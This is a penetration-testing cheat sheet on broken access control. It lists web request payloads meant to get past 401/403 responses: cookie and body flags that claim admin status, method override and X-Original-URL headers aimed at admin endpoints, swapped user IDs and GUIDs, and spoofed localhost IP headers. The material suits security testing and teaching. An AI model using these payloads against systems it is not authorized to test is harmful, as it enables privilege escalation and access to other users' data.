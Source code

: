 ```yaml
---
title: Broken Access Control Examples
desc: Examples of Broken Access Controls. Bypass 401, 403 responses.
tags: [AccessControl, API, IDOR, PrivEsc, Web]
alts: [IDORExamples]
website: 
render_with_liquid: false
---
```


## Change Cookie Values

```sh
Cookie: isAdmin=true
```

<br />

## Change Request Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## Change POST Body

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## Change User ID

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator
```

<br />

## Change GUID

GUID cannot be guessed but it may be found somewhere in the website.

```
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## IP Spoofing & Fuzzing in Request Header

```sh
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```